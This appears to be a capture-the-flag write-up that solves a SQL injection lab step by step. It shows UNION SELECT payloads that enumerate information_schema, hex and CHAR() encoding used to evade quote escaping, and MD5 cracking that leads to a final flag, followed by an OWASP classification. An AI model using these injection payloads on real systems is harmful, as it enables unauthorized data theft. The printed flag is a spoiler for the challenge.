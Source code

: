 # Extract the Flag from `Member_images.list_images`

### **1. the scenario**
## Recon: Understanding the form and context

1. The form is a **GET form**:

```html
<form action="#" method="GET">
  <input type="hidden" name="page" value="member">
  <input type="text" name="id" style="width:100%;">
  <input type="submit" value="Submit" name="Submit">
</form>
```

2. The parameter `id` is used in a query like:

```sql
SELECT first_name, last_name FROM users WHERE User_id = <user input>
```


* **Cause:** The application escapes quotes (`\'`) → classic **quote-escaping issue**.

---

## Step 1: Testing SQL injection

* For initial testing i try this simplest known statement : `1 OR 1=1`
* i get this output

``` ID: 1 or 1 
First name: one
Surname : me
ID: 1 or 1 
First name: two
Surname : me
ID: 1 or 1 
First name: three
Surname : me
ID: 1 or 1 
First name: Flag
Surname : GetThe
Search member by ID:
	

Submit 
```

THIS DATABASE IS VULNERABLE.


## Step 2: Determine number of columns

Use `ORDER BY` injection to find the number of columns:

```
1 ORDER BY 1-- -
1 ORDER BY 2-- -
1 ORDER BY 3-- -
```

* Stop at the first error.
* Result: 2 columns exist.

---

## Step 3: Investigating our database:


### **1. List the databases_names**
```sql 
1 UNION SELECT schema_name, NULL FROM information_schema.schemata 

```
and after investigating them one after other, **Member_images** is the one.
and it has one only table *list_images*, that i extracted using this command 

```sql 
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)


hint: CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115) = 'Member_images'
```

---

### **2. List the columns**













Injected:

```sql
1 UNION SELECT group_concat(column_name), NULL
FROM information_schema.columns
WHERE table_name=0x6c6973745f696d61676573
  AND table_schema=0x4d656d6265725f696d61676573-- -
```

```sql
The value 0x6c6973745f696d61676573 is a hexadecimal representation of the string list_images.
And The value 0x4d656d6265725f696d61676573 represents the string Member_images, a database schema.
```


* Output:

```
id, url, title, comment
```

* Only **text columns** (`title` and `comment`) are useful for finding hints or flags.

---

### **3. Extract the data**

Injected:

```sql
1 UNION SELECT title, comment FROM Member_images.list_images-- -
```

* Output highlights the `comment` associated with the title `Hack me ?`:

```
First name: Hack me ?
Surname : If I read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
Using

* **Observation:** The comment contains an **MD5 hash** and instructions:

  1. Decode the MD5 hash.
  2. Convert the result to lowercase.
  3. Apply SHA-256 on the lowercase result.

---

### **4. Follow the instructions step by step**

#### a) MD5 hash given:

```
1928e8083cf461a51303633093573c46
```

#### b) Step 1 — MD5 decode

* I can use **online MD5 lookup** tools (or a local script).
* Decoded result:

```
albatroz
```

#### c) Step 2 — lowercase

* Convert `albatroz` → `albatroz`

#### d) Step 3 — SHA-256

* Compute SHA-256 of `albatroz`, with the command : 
```bash
echo -n "albatroz" | sha256sum
```
* the **final flag** :  f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

### **5. What the vulnerability is (OWASP classification)**

#### Vulnerability name: SQL Injection — arbitrary query execution and data exfiltration via crafted input (e.g., UNION SELECT, information_schema enumeration).

OWASP Top 10 (2021) classification:
A03 — Injection.

Why: The application directly incorporates attacker-controlled input into SQL statements without proper parameterization or allowlisting, so an attacker can change the intended query logic to enumerate schemas/tables, read sensitive data, or execute destructive queries.

### ** 6. Root cause **

the application interpolates user input directly into SQL queries (no parameterization) and allows arbitrary identifiers to influence the query. This allowed an attacker to inject UNION SELECT payloads to enumerate schemas/tables/columns and exfiltrate row data. Contributing factors: overly permissive DB privileges and lack of output filtering/least privilege.





> tips:
* information_schema is a metadata database provided by most RDBMSs for listing databases/tables/columns
* schemata is the table that lists all schemas/databases on the server 
* CHAR(...) / 0x... encoding  used to bypass naive filters and quoting differences between DB engines.
* Column-count & type matching — attackers often trial-and-error to match the number and datatypes of columns returned by the original query
* Why GROUP_CONCAT / GROUP_CONCAT(column) — to combine column names into a single output cell